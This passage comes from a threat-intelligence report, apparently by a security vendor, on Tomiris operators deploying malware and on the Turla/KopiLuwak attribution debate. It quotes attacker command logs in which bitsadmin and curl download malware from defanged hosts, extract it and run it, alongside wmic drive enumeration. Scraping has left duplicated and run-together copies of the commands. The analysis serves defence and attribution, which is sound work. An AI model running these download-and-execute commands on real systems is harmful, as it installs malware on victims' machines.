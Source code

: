 
Delphi/Pascal


$> bitsadmin /transfer www /download hxxps://telegram.akipress[.]news/lsasss.rar [REDACTED]\lsasss.rar
$> rar.exe x "[REDACTED]\lsasss.rar" "[REDACTED]\"
$> [REDACTED]\lsasss.exe
$> dir "[REDACTED]\
$> del "[REDACTED]\document.rar"
$> [...]
$> wmic list drives
$> wmic diskdrive get name
$> wmic logicaldisk where drivetype=5 get deviceid, volumename, description
$> wmic logicaldisk where drivetype=3 get deviceid, volumename, description
$> [...]
$> bitsadmin /transfer www /download hxxps://telegram.akipress[.]news/lsasss.rar F:\lsasss.rar
$> rar.exe x "F:\lsasss.rar" "F:\"
$> F:\lsass.exe
$> tasklist | findstr /I "lsasss"




123456789101112131415

$> bitsadmin /transfer www /download hxxps://telegram.akipress[.]news/lsasss.rar [REDACTED]\lsasss.rar$> rar.exe x "[REDACTED]\lsasss.rar" "[REDACTED]\"$> [REDACTED]\lsasss.exe$> dir "[REDACTED]\$> del "[REDACTED]\document.rar"$> [...]$> wmic list drives$> wmic diskdrive get name$> wmic logicaldisk where drivetype=5 get deviceid, volumename, description$> wmic logicaldisk where drivetype=3 get deviceid, volumename, description$> [...]$> bitsadmin /transfer www /download hxxps://telegram.akipress[.]news/lsasss.rar F:\lsasss.rar$> rar.exe x "F:\lsasss.rar" "F:\"$> F:\lsass.exe$> tasklist | findstr /I "lsasss"




All these attempts ended in failure. After a one-hour pause, the operator tried again at 07:19 UTC, this time using a TunnusSched/QUIETCANARY sample:


Delphi/Pascal


curl hxxps://crane[.]mn/wp-content/plugins/jetpack/modules/photon-cdn/EpsonDeviceControl.exe –output [REDACTED]\epsondevicecontrol.exe




1

curl hxxps://crane[.]mn/wp-content/plugins/jetpack/modules/photon-cdn/EpsonDeviceControl.exe –output [REDACTED]\epsondevicecontrol.exe




The TunnusSched sample was blocked as well, and the operator resumed trying to deploy JLORAT and Roopy samples up to the next day. This activity and brute-force approach to infection is completely consistent with other Tomiris infections we have observed in the past.
Attribution: reading KopiLuwak’s story again
Mandiant noted that some elements of the recent TunnuSched case they analyzed “appear to be a departure from historical Turla operations”, but the use of KopiLuwak and TunnusSched led them to link this activity to Turla anyway. In order to perform a critical analysis of this attribution process, we need to go back in time.
KopiLuwak has belonged to Turla
Kaspersky first reported on KopiLuwak in 2016. Back then, this JavaScript reconnaissance tool was used to deploy ICEDCOFFEE in countries like Greece, Romania and Qatar. We attributed the associated attack campaign to Turla and could not find any reason to believe that was incorrect.
TunnusSched and KopiLuwak are part of the same toolset
Starting from 2019, we discovered additional implant families that were linked to KopiLuwak (and so, to Turla), starting from 2019. The implants were additionally linked together, mainly because they leverage an identical RC4 implementation:

